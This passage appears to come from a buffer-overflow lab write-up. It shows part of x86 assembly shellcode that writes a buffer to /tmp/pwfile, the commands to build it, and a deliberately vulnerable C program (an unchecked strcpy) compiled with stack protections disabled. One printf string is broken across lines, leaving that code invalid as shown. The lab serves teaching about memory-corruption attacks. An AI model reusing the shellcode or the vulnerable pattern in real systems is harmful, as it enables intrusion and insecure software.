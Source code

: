    ```asm
       mov ebx, esp          ; pointer to the output filename
       push WORD 0644        ; permissions
       pop edx
       int 0x80              ; call kernel

       mov ebx, eax          ; file descriptor for /tmp/pwfile
       push 0x4              ; syscall number for write
       pop eax
       mov ecx, edi          ; source buffer
       mov edx, esi          ; number of bytes to write
       int 0x80              ; call kernel

       xor eax, eax
       xor ebx, ebx
       mov al, 0x1           ; syscall number for exit
       int 0x80              ; call kernel
   ```
3. Compile the assembly code:
   ```bash
   nasm -f elf32 shellcode.asm -o shellcode.o
   ld -m elf_i386 shellcode.o -o shellcode
   ```
   ![image](https://github.com/user-attachments/assets/5d18786c-6dd6-413b-afef-ef22d00e5dd9)

## Step 4: Compile the Vulnerable C Program
Next, we will compile the vulnerable `redundant.c` program with specific flags to disable security protections:

1. Write the vulnerable C code in `redundant.c`:
   ```bash
   redundant.c
   ```
   ```c
   #include <stdio.h>
   #include <string.h>

   void redundant_code(char* p) {
       char local[256];
       strncpy(local, p, 20);
       printf("redundant code
      ");
   }

   int main(int argc, char* argv[]) {
       char buffer[16];
       strcpy(buffer, argv[1]);
       return 0;
   }
   ```
2. Compile with stack protector disabled and executable stack enabled:
   ```bash
   gcc redundant.c -o redundant.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
   ```
   ![image](https://github.com/user-attachments/assets/86ac74e0-278f-41fe-a893-b12d4f206b13)
